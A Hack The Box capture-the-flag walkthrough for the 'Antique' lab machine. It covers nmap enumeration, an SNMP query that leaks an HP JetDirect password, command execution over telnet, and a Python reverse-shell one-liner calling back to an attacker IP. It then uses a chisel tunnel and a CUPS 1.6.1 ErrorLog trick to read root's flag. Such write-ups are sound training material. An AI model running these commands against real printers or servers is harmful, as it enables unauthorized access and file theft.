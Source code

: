 # Antique

URL: https://app.hackthebox.com/machines/Antique

Level: Easy

Date 16 Oct 2021

## Walkthrough

- [Enumeration](#enumeration)
- [User flag](#user-flag)
- [Privesc](#privesc)

# Enumeration

## NMAP

Let's start with a basic nmap scan:

```
# Nmap 7.91 scan initiated Sat Oct 16 15:00:00 2021 as: nmap -T4 -p- -oN 01_nmap 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.049s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
23/tcp open  telnet

# Nmap done at Sat Oct 16 15:00:30 2021 -- 1 IP address (1 host up) scanned in 29.54 seconds
```

We got just one single port. Let's check again with -A: 

```
# Nmap 7.91 scan initiated Sat Oct 16 15:00:59 2021 as: nmap -T4 -p23 -A -oN 02_nmap 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270:
|     JetDirect
|     Password:
|   NULL:
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.91%I=7%D=10/16%Time=616ACD1F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   42.05 ms 10.10.14.1
2   43.92 ms 10.10.11.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 16 15:04:14 2021 -- 1 IP address (1 host up) scanned in 195.95 seconds
```

It seems we are facing a printer device (HP JetDirect).

Let's check again if SNMP is returning other detail, according to this:

https://www.exploit-db.com/exploits/22319

```
root@kali:/opt/htb/Antique# snmpwalk -v1 -cpublic 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
Created directory: /var/lib/snmp/cert_indexes
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

So, our string is:

```
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Let's try to decode:

```
root@kali:/opt/htb/Antique# sed -e 's/\ //g' 4_string
504073737730726440313233212131323313917181922232526273031333435373839424349505154575861657475798283869091949598103106111114115119122123126130131134135
```

```
root@kali:/opt/htb/Antique# python
Python 2.7.18 (default, Sep 24 2021, 09:39:51)
[GCC 10.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "504073737730726440313233212131323313917181922232526273031333435373839424349505154575861657475798283869091949598103106111114115119122123126130131134135".decode("hex")
'P@ssw0rd@123!!123\x13\x91q\x81\x92"2Rbs\x03\x133CSs\x83\x94$4\x95\x05\x15Eu\x86\x16WGW\x98(8i\t\x19IY\x81\x03\x10a\x11\x11A\x15\x11\x91"\x121&\x13\x011\x13A5'
>>> quit
Use quit() or Ctrl-D (i.e. EOF) to exit
>>>
```

It seems password is `P@ssw0rd@123!!123` (after we have some garbage).

We can also use this resource:

https://string-functions.com/hex-string.aspx

We try telnet with such password and we are in!

```
root@kali:/opt/htb/Antique# telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

## User-flag

```
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
>
```

```
> exec cat user.txt
3e10a6020aa9[REDACTED]
>
```

We try to obtain a reverse shell:

```
> exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

## Privesc

Through `netstat -natlp` we discover that port 631/TCP is listening only on localhost.

We want to access web interface of CUPS service, we use `chisel` (since we have no SSH access).

https://github.com/jpillora/chisel/releases

On our attacker machine:

```
root@kali:/opt/tools/chisel# ./chisel_1.7.6_linux_amd64 server -p 8000 -reverse
2021/10/16 16:09:38 server: Reverse tunnelling enabled
2021/10/16 16:09:38 server: Fingerprint grujYiVy8ha00e/5A6PPV7IFz6LbuzQXD8r799Wt                                                                                                              o4M=
2021/10/16 16:09:38 server: Listening on http://0.0.0.0:8000
```

On victim (after transfer `chisel` binary through python web server):

```
lp@antique:/tmp$  ./chisel client 10.10.14.14:8000 R:631:127.0.0.1:631
 ./chisel client 10.10.14.14:8000 R:631:127.0.0.1:631
2021/10/16 14:09:51 client: Connecting to ws://10.10.14.14:8000
```

From now, every connection made on port 631/TCP on our machine is forwarded to port 631 on target.

We found that CUPS version is 1.6.1.

According to this:

https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/

We should be able to retrieve files content, even with root privileges.

On target machine:

```
cupsctl ErrorLog="/root/root.txt"
```

On attacker machine:

```
root@kali:/opt/htb/Antique# curl http://localhost:631/admin/log/error_log
b07549ac8[REDACTED]
```
